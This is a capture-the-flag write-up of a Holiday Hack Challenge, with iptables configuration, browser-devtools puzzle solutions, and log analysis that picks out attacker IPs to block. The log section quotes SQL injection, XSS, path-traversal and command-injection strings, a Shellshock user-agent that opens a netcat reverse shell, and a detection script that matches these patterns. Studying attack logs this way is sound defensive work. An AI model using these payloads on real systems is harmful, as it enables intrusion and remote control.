Kent: Please hurry; having this ribbon cable on my teeth is uncomfortable.
The readme file at /home/elfuuser/IOTteethBraces.md reveals that Kents braces use the Linux kernel firewall, and gives the exact configuration to make them safe.
# ElfU Research Labs - Smart Braces
### A Lightweight Linux Device for Teeth Braces
### Imagined and Created by ElfU Student Kent TinselTooth
This device is embedded into one's teeth braces for easy management and monitoring of dental
status. It uses FTP and HTTP for management and monitoring purposes but also has SSH for
remote access. Please refer to the management documentation for this purpose.
## Proper Firewall configuration:
The firewall used for this system is `iptables`. The following is an example of how to set a
default policy with using `iptables`:
```
sudo iptables -P FORWARD DROP
```
The following is an example of allowing traffic from a specific IP and to a specific port:
```
sudo iptables -A INPUT -p tcp --dport 25 -s 172.18.5.4 -j ACCEPT
```
A proper configuration for the Smart Braces should be exactly:
1. Set the default policies to DROP for the INPUT, FORWARD, and OUTPUT chains.
2. Create a rule to ACCEPT all connections that are ESTABLISHED,RELATED on the INPUT and the OUTPUT chains.
3. Create a rule to ACCEPT only remote source IP address 172.19.0.225 to access the local SSH server (on port 22).
4. Create a rule to ACCEPT any source IP to the local TCP services on ports 21 and 80.
5. Create a rule to ACCEPT all OUTPUT traffic with a destination TCP port of 80.
6. Create a rule applied to the INPUT chain to ACCEPT all traffic from the lo interface.
The firewall is configured with the command iptables, the usage of
which is explained in great detail in the tutorial linked by the hint. Adapting
the examples provided there:
-
Set the default policies to DROP for the INPUT, FORWARD, and OUTPUT chains:
sudo iptables -P INPUT DROP sudo iptables -P OUTPUT DROP sudo iptables -P FORWARD DROP -
Create a rule to ACCEPT all connections that are ESTABLISHED,RELATED
on the INPUT and the OUTPUT chains: exactly as explained in the tutorial
sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT -
Create a rule to ACCEPT only remote source IP address 172.19.0.225 to access
the local SSH server (on port 22): The shorthand
--dport sshfrom the tutorial did not seem to work in the terminal, the port number had to be used.sudo iptables -A INPUT -p tcp --dport 22 -s 172.19.0.225 -j ACCEPT -
Create a rule to ACCEPT any source IP to the local TCP services on ports 21 and 80:
sudo iptables -A INPUT -p tcp --dport 21 -j ACCEPT sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT -
Create a rule to ACCEPT all OUTPUT traffic with a destination TCP port of 80:
sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT -
Create a rule applied to the INPUT chain to ACCEPT all traffic from the lo interface:
The "lo" here stands for localhost. Consulting the man pages shows that there is
a parameter -i to specify an interface.
sudo iptables -A INPUT -i lo -j ACCEPT
If these settings are done before Kent looses patience with the cable connecting his braces, a success message appears on the terminal before it is killed by Kent ripping out the cable. A relieved Kent provides a truckload of hints helping with Shinny Upatree's locked crate, and a pointer at a very good hint in Minty Candycane's Holiday Hack Trail game from objective 7. Which meant, of course, that I had to beat the game again to get that hint ...
iptables -L to list all currently
defined rules shows there are none at the beginning. All network communication was
permitted. No wonder the braces were a target! There are 3 predefined rule chains
in the filter table: INPUT (destined for host), OUTPUT (originating from host) and
FORWARD (just passing through). Default policy DROP means that all
packets without an explicit rule are thrown away. Usually, the OUTPUT chain would
be configured to ACCEPT all by default and then to exclude specific targets, but for
IOT a more drastic approach is appropriate. ESTABLISHED and RELATED are connection
states accessible through the module conntrack, and the rules permit packets part of
or related to an already established connection. Incoming SSH traffic is restricted
to a specific IP address, and free access is given to incoming ftp (port 21) and
http (port 80) traffic. Finally, inbound traffic on the local loopback interface
(localhost) has to be permitted, as a number of systems would be broken otherwise.
By the way, have you tried to get into the crate in the Student Union? It has an interesting set of locks. There are funny rhymes, references to perspective, and odd mentions of eggs! And if you think the stuff in your browser looks strange, you should see the page source... Special tools? No, I don't think you'll need any extra tooling for those locks. BUT - I'm pretty sure you'll need to use Chrome's developer tools for that one. Or sorry, you're a Firefox fan? Yeah, Safari's fine too - I just have an ineffible hunger for a physical Esc key. Edge? That's cool. Hm? No no, I was thinking of an unrelated thing. Curl fan? Right on! Just remember: the Windows one doesn't like double quotes. Old school, huh? Oh sure - I've got what you need right here...
...
...
And I hear the Holiday Hack Trail game will give hints on the last screen if you complete it on Hard.
The "old school" option refers to the purely text-based Lynx browser, dating back to 1992. Fond memories ... :-) Good luck with that! Quite appropriately, the link leads to XKCD with an example of what might happen if you open the wrong crate.
II) Open the Sleigh Shop Door
I'm Shinny Upatree, and I know what's going on! Yeah, that's right - guarding the sleigh shop has made me privvy to some serious, high-level intel. In fact, I know WHO is causing all the trouble. Cindy? Oh no no, not that who. And stop guessing - you'll never figure it out. The only way you could would be if you could break into my crate, here. You see, I've written the villain's name down on a piece of paper and hidden it away securely!
Hints from Holiday Hack Trail:
- When I'm down, my F12 key consoles me
- Reminds me of the transition to the paperless naughty/nice list...
- Like a present stuck in the chimney! It got sent...
- We keep that next to the cookie jar
- My title is toy maker the combination is 12345
- Are we making hologram elf trading cards this year?
- If we are, we should have a few fonts to choose from
- The parents of spoiled kids go on the naughty list...
- Some toys have to be forced active
- Sometimes when I'm working, I slide my hat to the left and move odd things onto my scalp!
The "crate" has 10 locks, each of which comes witgh a riddle, a hint and an input field for 8 alphanumeric characters. The obfuscated HTML calls an even more obfuscated JaavScript to weave some magic. Deobfuscating that looks possible, but way too painful for cheerful holiday hacking. We are supposed to use the developer tools, so lets do that.
Lock 1:
You don't need a clever riddle
to open the console and scroll a little.
Use F12 to open the developer tools, and go to the Console tab. Scrolling right up reveals the key.
Lock 2:
Some codes are hard to spy,
perhaps they'll show up on pulp with dye?
In the page source, find the second lock using the inspector. The
code for the lock shows up as part of the instructions. It appears that
the code is printed on zero dimensions when rendered on screen, a CSS trick.
This is why the hints talk about paper: if the page is printed out on
actual paper, the code would appear.
The reason can be found in the short
stylesheet /css/print.css, which specifies that the
style libra strong is not displayed, only printed.
none with block to
show the code.
.libra strong {
display: none;
}
@media print {
.libra strong {
display: block;
}
}
Lock 3:
This code is still unknown;
it was fetched but never shown.
After the page is set up, a PNG is repeatedly loaded. This PNG (which is not shown on the page) has the code. It can be found by opening the Network Monitor tab and looking for repeated fetches of an image.
Lock 4:
Where might we keep the things we forage?
Yes, of course: Local barrels!
Hmm, "storage" would rhyme much better than "barrels". The code can be found in the local storage under the Storage Inspector tab, with 3 barrels as a key. Right next to the cookies, as the hint states.
Lock 5:
Did you notice the code in the title?
It may very well prove vital.
All kinds of ideas of how to see the title are provided in the hints. I just scrolled up in the Page Inspector tab.
Lock 6:
In order for this hologram to be effective,
it may be necessary to increase your perspective.
Finding the hologram in the page source using the inspector exposes the characters appearing in the hologram, but not their order. The perspective property of .hologram in the style sheet determines how distant a 3D object is from the viewer. This can be edited directly in the CSS viewer. Choosing a very high value such as 50000px makes the code completely readable.

Lock 7:
The font you're seeing is pretty slick,
but this lock's code was my first pick.
The font family with the code can be tracked down using the Style Editor tab. The font-family lists a sequence of fonts
- <code>
- 'Beth Ellen'
- cursive
Lock 8:
In the event that the .eggs go bad,
you must figure out who will be sad.
Looking up the lock instructions in the inspector, it appears that the span.eggs style is tied to an event, which is defined as part of the obfuscated JavaScript magic. Clicking on the event leads to its description, which includes the code: "VERONICA" will be sad when the .eggs spoil.
Lock 9:
This next code will be unredacted,
but only when all the chakras are :active.
One can simply chase up the definition of .span.chakra in the stylesheet. The code can be read from there. Each chakra represents a word in the hint (next, unredacted, only, when, chakras), which, when clicked, shows part of the code. This is the function of the :active pseudoclass
Lock 10:
Oh, no! This lock's out of commission!
Pop off the cover and locate what's missing.

This is the most complex lock. It requires several steps to open:
- Move the cover: change left position of .lock.10.cover to 400px in the CSS
- Check the open circuit board. The code KD29XJ37 is printed in the bottom right corner. Enter this code in the display.
- Try to press the button on the board. Nothing happens, and the error message "missing maccaroni!" appears in the console.
-
Search for "macaroni" in the Page Inspector. As part of lock 7,
<div class="component macaroni" data-code="A33"></div>is found. Copy and paste this behind the cover into the container<div class="lock 10 unlocked">. If it was coppied to the correct place, a macaroni appears on the circuit board. -
Two more items need to be added this way: a miising gnome and a cotton swab.
<div class="component gnome" data-code="XJ0"></div><div class="component swab" data-code="J39"></div> - The lock is now enabled. Press the button to open it.
When all 10 locks have been opened, a letter with the name of the villain appears: The Tooth Fairy!
In the console, a challenge appears:
The Tooth Fairy
You opened the chest in 1447.023 seconds
Well done! Do you have what it takes to Crack
the Crate in under three minutes?
Feel free to use this handy image to share your score!
After a few tries, I got down to 4 minutes. 3 minutes sounds very challenging, unless one is seriously awake or uses javascript to help fill some positions automatically. To be further investigated if there is enough time before the deadline ...
Objective 12: Filter Out Poisoned Sources of Weather Data
Use the data supplied in the Zeek JSON logs to identify the IP addresses of attackers poisoning Santa's flight mapping software. Block the 100 offending sources of information to guide Santa's sleigh through the attack. Submit the Route ID ("RID") success value that you're given. For hints on achieving this objective, please visit the Sleigh Shop and talk with Wunorse Openslae.
I) Help Wunorse Openslae
conn.log is a huge sequence of JSON Zeek connection logs such as
{
"ts": "2019-04-04T20:34:24.698965Z",
"uid": "CAFvAu2l50Km67tSP5",
"id.orig_h": "192.168.144.130",
"id.orig_p": 64277,
"id.resp_h": "192.168.144.2",
"id.resp_p": 53,
"proto": "udp",
"service": "dns",
"duration": 0.320463,
"orig_bytes": 94,
"resp_bytes": 316,
"conn_state": "SF",
"missed_bytes": 0,
"history": "Dd",
"orig_pkts": 2,
"orig_ip_bytes": 150,
"resp_pkts": 2,
"resp_ip_bytes": 372
}
each as a new JSON object. jq, the favoured tool, is a unix command line JSON processor. The C2 in Wunorse's speach stands for command & control, and a C2 channel is used by machines in a botnet to report back to their "minder".
Well, Santa provides! The article on JQ by Joshua Wright hinted at by Wunorse pretty much contains the solution to her troubles. The command
cat conn.log | jq -s 'sort_by(.duration) | reverse | .[0]'
returns the longest connection from the set of logs. jq is invoked with the aptly named option -s or --slurp, which reads the entire file into a large JSON array before performing any operations. Without it, jq would act on each JSON object in conn.log in turn, which is no good when sorting. And sort we do, in reverse order of duration, and extract the first element of the resulting array. The answer desired by Wunorse is the destination IP (key: "id.resp_h") of this connection: 13.107.21.200.
Hey, you know what? We've got a crisis here. You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data. All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data! I'm so flummoxed I can't even remember how to login!
Hmm... Maybe the Zeek http.log could help us. I worry about LFI, XSS, and SQLi in the Zeek log - oh my! And I'd be shocked if there weren't some shell stuff in there too. I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs. The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route. Try not to block many legitimate weather station IPs as that could also cause route calculation failure.
Remember, when looking at JSON data, jq is the tool for you!
II) Filter Out Poisoned Sources of Weather Data
Time to meet the evil mastermind.
No wonder poor Kent Tinseltooth got into trouble!
Easier said than done, Mr. Krampus! We are tasked with identifying a list of IPs to block by looking for attack patterns in the logs of old HTTP requests. The logic behind this approach apears to be:
- The Tooth Fairy tried (and failed) to hack into Sleigh Route Finder (SRF) API before she managed to get the password location from Kent Tinseltooth.
- For those hacking attempts she used a variety of IP addresses to cover her tracks, probably via a botnet.
- Now that she has the password and can access the SRF API legitimately, the Tooth Fairy reuses her botnet to poison the weather data.
- Therefore, the IP addresses of logged attacks and bad weather data will overlap.
The first step is to log into the SRF API to see what is going on. Only we cannot,
because Wunorse has panicked and forgotten her login. Most of the API is access
protected by session cookie, poking around just gives a
401 - Unauthorized srfsession Cookie response. Available information:
- Kent Tinseltooth (the elf with the IOT braces) spilled out an important hint when interrogated by the Tooth Fairy: Please no, they're testing it at srf.elfu.org using default creds, but I don't know more. It's classified.
- According to the SRF manual reconstructed in objective 10, The default login credentials should be changed on startup and can be found in the readme in the ElfU Research Labs git repository.
But where can the git repository of ElfU Research Labs be found? It is of course not openly accessible, and searching through all previous information produced no leads. This leaves the Zeek log file, a long JSON array of HTTP request logs, either GET or POST. A typical entry:
{
"ts": "2019-10-05T06:51:49-0800",
"uid": "C7Erxw6CZFJlrkQe3",
"id.orig_h": "228.75.175.207",
"id.orig_p": 41278,
"id.resp_h": "10.20.3.80",
"id.resp_p": 80,
"trans_depth": 1,
"method": "GET",
"host": "10.20.3.80",
"uri": "/api/weather?station_id=1626921,1342999",
"referrer": "-",
"version": "1.1",
"user_agent": "Sogou head spider/3.0( http://www.sogou.com/docs/help/webmasters.htm#07)",
"origin": "-",
"request_body_len": 0,
"response_body_len": 926,
"status_code": 200,
"status_msg": "OK",
"info_code": "-",
"info_msg": "-",
"tags": "(empty)",
"username": "-",
"password": "-",
"proxied": "-",
"orig_fuids": "-",
"orig_filenames": "-",
"orig_mime_types": "-",
"resp_fuids": "FbuO1h1tuN8AT1n3wc",
"resp_filenames": "-",
"resp_mime_types": "application/json"
}
The idea is to check the URIs of successful HTTP requests to srf.elfu.org in order to find paths which are not access protected. JQ is a great tool for analysing JSON files, but I find python scripts much simpler to use if available:
import json
with open("http.log", "r") as fh:
logs = json.load(fh)
good_uris = set([log["uri"] for log in logs if log["status_code"] == 200])
print("Successful URIs:", len(good_uris))
for uri in good_uris:
if not uri.startswith("/api/weather"):
print(uri)
The full list of good URIs has 19682 entries, but most of them are calls to
/api/weather with different parameters.
Excluding those leaves 45 candidates:
/
/alert.html
/santa.html
/index.html
/api/stations?station_id=1' UNION SELECT 1,'automatedscanning','5e0bd03bec244039678f2b955a2595aa','',0,'',''/*&password=MoAOWs
/api/stations?station_id=<script>alert('automatedscanning')</script>
/api/stations?station_id=|cat /etc/passwd|
/logout?id=1' UNION SELECT null,null,'autosc','autoscan',null,null,null,null,null,null,null,null/*
/logout?id=1' UNION/**/SELECT 1223209983/*
/vendor/jquery/jquery.min.js
/api/login?id=1' UNION/**/SELECT/**/0,1,concat(2037589218,0x3a,323562020),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
/apidocs.pdf
/api/login?id=cat /etc/passwd||
/js/Morph.js
/api/stations
/api/login?id=.|./.|./.|./.|./.|./.|./.|./.|./.|./.|./.|./.|./etc/passwd
/api/stations?station_id=<script>alert(\"automatedscanning\")</script>
/api/login
/js/library-g.js
/vendor/bootstrap/js/bootstrap.bundle.min.js
/logout?id=<script>alert(1400620032)</script>&ref_a=avdsscanning\"><script>alert(1536286186)</script>
/css/main.css
/img/goodweather.png
/vendor/jquery-easing/jquery.easing.min.js
/css/alt.css
/api/measurements
/css/weathermap.css
/js/weathermap.js
/map.html
/img/logo_zoomed2.PNG
/js/ipaddr.js
/logout
/img/badweather.png
/api/stations?station_id=1' UNION SELECT 1,2,'automatedscanning',4,5,6,7,8,9,10,11,12,13/*
/README.md
/js/freelancer.min.js
/vendor/fontawesome-free/webfonts/fa-solid-900.woff2
/api/measurements?station_id=<script>alert(60602325)</script>
/js/CustomEase.js
/api/login?id=/../../../../../../../../../etc/passwd
/home.html
/api/firewall
/vendor/fontawesome-free/css/all.min.css
/api/measurements?station_id=1' UNION SELECT 1434719383,1857542197 --
/css/freelancer.min.css
Evidently, the tooth fairy has been busy! Many of the URIs show exploit patterns
for SQL injection, path traversal etc which will be useful later. In the remainder,
/README.md stands out. Could this be
the git repository readme containing the default password?
Thankfully, this URI is not blocked, and
https://srf.elfu.org/README.md
leads to a download:
# Sled-O-Matic - Sleigh Route Finder Web API ### Installation ``` sudo apt install python3-pip sudo python3 -m pip install -r requirements.txt ``` #### Running: `python3 ./srfweb.py` #### Logging in: You can login using the default admin pass: `admin 924158F9522B3744F5FCD4D10FAC4356` However, it's recommended to change this in the sqlite db to something custom.
Success! With these credentials, I was able to log in and get to https://srf.elfu.org/home.html. and access the api documentation for entering weather data, a really scary looking weather weather map and the firewall configuration page. Other URIs from the good list above also become accessible, but show nothing new.
Let's do something about all this bad weather and block some evil IPs. Some URI manipulations were already visible in the list of successful URIs above. Other log entries can be tested for manipulations by collecting and printing all appearing values, for example from the python prompt with
>>> set([log["username"] for log in logs])
It turns out that 4 log elements show manipulations, the others appear clean. Examples and search terms to identify the manipulation:
-
"host":
-
Cross-site scripting → look for
<script>
"host": '<script>alert(\\"automatedscanning\\")</script><img src=\\"'
-
Cross-site scripting → look for
-
"uri":
-
Cross-site scripting → look for
<script>
"uri": /api/weather?station_id=<script>alert(1)</script>.html -
SQL injection → look for
'
"uri": /api/weather?station_id=1' UNION/**/SELECT 302590057/* -
Local file inclusion → look for
/.. or passwd
"uri": '/api/login?id=/../../../../../../../../../etc/passwd'
-
Cross-site scripting → look for
-
"user_agent":
-
SQL injection → look for
'
"user_agent": "1' UNION/**/SELECT/**/1,2,434635502,4/*&blog=1" -
Remote command execution → look for
()
"user_agent": "() { :; }; /bin/bash -c '/bin/nc 55535 220.132.33.81 -e /bin/bash'"
-
SQL injection → look for
-
"username":
-
SQL injection → look for
'
"username": "' or '1=1"
-
SQL injection → look for
The python script below searches through all logs and collects the source IP addresses of requests matching the above criteria.
import json
with open("http.log", "r") as fh:
logs = json.load(fh)
evil_ip = set()
# Catch suspicious looking headers
for log in logs:
uri = log["uri"]
host = log["host"]
user_agent = log["user_agent"]
username = log["username"]
if (uri.find('<script>') >= 0 # URI: XXS
or uri.find("'") >= 0 # URI: SQLi
or uri.find('/..') >= 0 # URI: LFI
or uri.find('passwd') >= 0 # URI: LFI
or host.find('<script>') >= 0 # Host: XXS
or user_agent.find('()') >= 0 # UserAgent: remote command execution
or user_agent.find("'") >= 0 # UserAgent: SQLi
or username.find("'") >= 0): # UserName: SQLi
evil_ip.add(log["id.orig_h"])
print("Evil HTTP headers:", len(evil_ip))
print(', '.join(list(evil_ip)))
'Only' 67 evil IP addresses are identified, not good enough! Trying to block these IPs in the SRF api firewall still results in a failed route calculation, ans Santa crashing into a dark cloud. As suggested by Wunorse Openslae, we have to do some pivoting to find more IPs to block. The only promising candidate is the user agent field. If we collect the user agents used by the malicious requests, many of them look unusual: some have typoes indicating sloppy hand-construction, others are fantasy names or even dead giveaways (e.g. metasploit).
The script below compiles the compromised user agent names, excluding those which are directly malicious (they are already accounted for). It then collects the originating IP of all requests using those names, and prints the number of occurences.
import json
with open("http.log", "r") as fh:
logs = json.load(fh)
evil_ip = set()
suspicious_ua = set()
# Catch suspicious looking headers
for log in logs:
uri = log["uri"]
host = log["host"]
user_agent = log["user_agent"]
username = log["username"]
if (uri.find('<script>') >= 0 # URI: XXS
or uri.find("'") >= 0 # URI: SQLi
or uri.find('/..') >= 0 # URI: LFI
or uri.find('passwd') >= 0 # URI: LFI
or host.find('<script>') >= 0 # Host: XXS
or user_agent.find('()') >= 0 # UserAgent: remote command execution
or user_agent.find("'") >= 0 # UserAgent: SQLi
or username.find("'") >= 0): # UserName: SQLi
evil_ip.add(log["id.orig_h"])
suspicious_ua.add(user_agent)
print("Evil HTTP headers:", len(evil_ip))
# Identify strange looking user agents
for ua in suspicious_ua:
# exclude manipulated User Agents: they are already counted
if ua.find('()') >= 0 or ua.find("'") >= 0:
continue
# count number of IP addresses with this UA
ua_ip = set()
for log in logs:
if log["user_agent"] == ua:
ua_ip.add(log["id.orig_h"])
print(len(ua_ip), ua)
# exclude UAs with many hits, as they are probably legit
if len(ua_ip) > 8:
continue
evil_ip.update(ua_ip)
print("Evil IP addresses:", len(evil_ip))
print(', '.join(list(evil_ip)))
The result: a list of 52 suspects.
1 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12
11 Mozilla/5.0 (Windows; U; Windows NT 5.2; sk; rv:1.8.1.15) Gecko/20080623 Firefox/2.0.0.15
13 Mozilla/5.0 (X11; Linux i686) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.100 Safari/534.30
2 Mozilla/4.0 (compatible; Metasploit RSPEC)
2 CholTBAgent
11 Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_4_11; fr) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.1.2 Safari/525.22
2 Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.
2 Wget/1.9+cvs-stable (Red Hat modified)
1 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1
2 Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)
2 Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13
2 Mozilla/5.0 WinInet
2 Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)
2 Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731
2 Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0
2 Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N
2 Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)
10 Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071004 Firefox/2.0.0.8 (Debian-2.0.0.8-1)
2 Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)
2 Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)
1 Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36
2 Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)
2 Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )
2 Mozilla/5.0 (Windows NT 5.1 ; v.)
2 Opera/8.81 (Windows-NT 6.1; U; en)
9 Mozilla/5.0 (X11; U; Linux x86_64; de; rv:1.9.0.18) Gecko/2010021501 Ubuntu/9.04 (jaunty) Firefox/3.0.18
2 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR 1.1.4322)
17 Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5
1 Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30
2 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)
2 Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)
2 Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)
2 Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)
19 Mozilla/4.0 (compatible; MSIE 5.13; Mac_PowerPC)
10 Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.4.15451
2 Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1
2 Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)
2 Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)
2 RookIE/1.0
2 Mozilla/5.0 (Windows NT 10.0;Win64;x64)
2 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
2 Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)
1 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1
1 Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36
2 Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)
2 Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)
2 Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)
2 Mozilla/4.0 (compatible MSIE 5.0;Windows_98)
2 Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)
2 HttpBrowser/1.0
1 Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19
13 Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9b3) Gecko/2008020514 Opera 9.5
Blocking all associated IP addresses would be too much (207), the firewall does not even let us try so many. The honest approach would be to look at all user agents in the list and mark the suspicious ones by hand, but this would be far too much effort. So, I simply assumed that user agents with more than 8 hits are probably legitimate, and excluded them from the collection (implemented in the script above). This results in a list of 103 blockworthy IP addresses. Printing them as csv and feeding them to the SRF api firewall under deny results in a much better looking weather map, a successful route calculation and a happy Santa.
Epilogue
Hooray, christmas is saved!! Solving the final objective freed up the path to the bell tower, where a happy Santa, a rather bloated Krampus and a pissed off Tooth Fairy are gathered. One can even spot an ominous note in the corner, hinting at fun to be had in a years time.
Ho Ho Ho!
The more I laugh, the more I fill with glee. And the more the glee, The more I'm a merrier me!
Merry Christmas and Happy Holidays.
Many thanks to Ed Skoudis and all the makers of this HHC for the incredible length they went to in order to create a memorable, albeit sleepless christmas holiday. With so many pros around, it was a great feeling to crack this tough nut as a mere hobbyist, even though I imagine there are many eggs left to be discovered. I learned a huge amount about the blue side of things, which was completely new to me: Event logging and analysis, which traces an attacker leaves, and how to read them. My favourite topics were:
- Optical key cutting
- SQLmap
- Splunk / Graylog
- PowerShell tricks
Hope to be back next year!
Whose grounds these are, I think I know
His home is in the North Pole though
He will not mind me traipsing here
To watch his students learn and grow
Some other folk might stop and sneer
"Two turtle doves, this man did rear?"
I'll find the birds, come push or shove
Objectives given: I'll soon clear
Upon discov'ring each white dove,
The subject of much campus love,
I find the challenges are more
Than one can count on woolen glove.
Who wandered thus through closet door?
Ho ho, what's this? What strange boudoir!
Things here cannot be what they seem
That portal's more than clothing store.
Who enters contests by the ream
And lives in tunnels meant for steam?
This Krampus bloke seems rather strange
And yet I must now join his team...
Despite this fellow's funk and mange
My fate, I think, he's bound to change.
What is this contest all about?
His victory I shall arrange!
To arms, my friends! Do scream and shout!
Some villain targets Santa's route!
What scum - what filth would seek to end
Kris Kringle's journey while he's out?
Surprised, I am, but "shock" may tend
To overstate and condescend.
'Tis little more than plot reveal
That fairies often do extend
And yet, despite her jealous zeal,
My skills did win, my hacking heal!
No dental dealer can so keep
Our red-clad hero in ordeal!
This Christmas must now fall asleep,
But next year comes, and troubles creep.
And Jack Frost hasn't made a peep,
And Jack Frost hasn't made a peep...